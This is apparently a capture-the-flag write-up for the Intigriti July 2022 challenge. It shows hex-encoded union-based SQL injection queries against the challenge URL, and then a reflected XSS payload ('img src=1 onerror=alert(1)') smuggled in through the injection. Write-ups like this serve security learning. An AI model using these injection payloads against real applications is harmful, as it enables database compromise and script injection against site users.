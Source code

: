 <p>• Note : hex encoded since comma(,) will affect the query.</p>

<p>• Then i tried to see which column is injectable with union query but here comes the plot twist "No ouput" ; only jake and anton were reflected respectively.</p>

```
Query used : 
https://challenge-0722.intigriti.io/challenge/challenge.php?month=3 union select null,null,null,0x3220756e696f6e2073656c65637420312c322c64617461626173652829202d2d202d,null -- -

2 union select 1,2,database() -- -  :  0x3220756e696f6e2073656c65637420312c322c64617461626173652829202d2d202d
```

<p>• I was at dead end ,nothing seemed to work for a long time.</p>
<p>• I tried googling random things about sql injection and blogs( Some good learnings tho).</p>
<p>• Then i found this blog <a href="https://vk9-sec.com/advanced-sql-injection-union-based/">https://vk9-sec.com/advanced-sql-injection-union-based/</a></p>

```
From the blog: 
But in case you cannot see any of these column printed then you can simply invalidate the first query so that it won’t give any output and eventually your output will become the one and only output to be printed.
```

<p>• It made sense , The only ouput i was able to get was author name,maybe invalidating that query will actually make the union select query works?lets try!!!</p>

<img src="https://raw.githubusercontent.com/kabilan1290/kabilan1290.github.io/master/assets/img/2ref.png">

<p>• yasssssssss ! we got reflection on the 2 column on user table!</p>

```
Query used:
(https://challenge-0722.intigriti.io/challenge/challenge.php?month=3 union select null,null,null,0x3120616e64203020756e696f6e2073656c65637420312c322c33202d2d202d,null from post-- -#)

1 and 0 union select 1,2,3 -- -  :  0x3120616e64203020756e696f6e2073656c65637420312c322c33202d2d202d

```

<p>• Then tried to check whether it has any special character escape and it did'nt had :0 </p>

<img src="https://raw.githubusercontent.com/kabilan1290/kabilan1290.github.io/master/assets/img/xss.png">

<p>• We almost done the challenge, now the only part that is required is bypassing the csp !</p>

```
Query Used:

1 and 0 union select 1,0x3c696d67207372633d31206f6e6572726f723d616c6572742831293e,3 -- -  :  0x3120616e64203020756e696f6e2073656c65637420312c307833633639366436373230373337323633336433313230366636653635373237323666373233643631366336353732373432383331323933652c33202d2d202d
<img src=1 onerror=alert(1)>  :  0x3c696d67207372633d31206f6e6572726f723d616c6572742831293e
```
